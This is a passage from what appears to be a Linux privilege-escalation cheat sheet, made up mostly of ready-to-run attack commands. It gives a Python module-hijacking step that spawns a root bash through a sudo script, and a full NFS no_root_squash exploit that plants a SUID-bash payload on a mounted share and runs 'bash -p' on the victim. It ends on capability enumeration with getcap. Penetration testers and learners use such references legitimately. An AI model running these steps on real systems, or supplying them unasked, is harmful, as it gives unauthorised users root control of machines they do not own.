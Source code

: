 **Exploit**
```bash Create a malicious module
echo "import os; os.system('/bin/bash')" > /home/user/some_module.py
```
```bash Run the privileged script with updated module
sudo python3 /priv/vuln.py
```


<br>

## NFS `no_root_squash` / `no_all_squash`
> `no_root_squash`: Allows root user on NFS client to retain root privileges on the NFS server.
`no_all_squash`: Prevents mapping of all users to anonymous user (nobody), keeping their original privileges.

**Test**
```bash command
cat /etc/exports
```
```plain example output
/home/chronos *(rw,fsid=0,sync,no_root_squash,insecure)
```

**Exploit** - 1. attacker machine
```bash mount the NFS share
mkdir /mnt/nfs
mount -t nfs $IP:/path/to/share /mnt/nfs
```
```bash create a root-owned file and a SUID shell
touch /mnt/nfs/root_owned_file
echo '#!/bin/bash' > /mnt/nfs/suid_shell
echo 'chmod +s /bin/bash' >> /mnt/nfs/suid_shell
chmod +x /mnt/nfs/suid_shell
```
**Exploit** - 2. victim machine
```bash execute the payload
/mnt/nfs/suid_shell
/bin/bash -p
```

<br>

## Linux capabilities
> Linux capabilities allow programs to perform privileged operations without granting full root permissions. When a binary has capabilities like cap_setuid, it can be exploited to gain root privileges. 
This applies to any binary, but we'll use `python` as an example.

**Test**
```bash list capabilities of binaries on the system
getcap -r / 2>/dev/null
```
```plain example output
/usr/bin/python2.6 = cap_setuid+ep
```
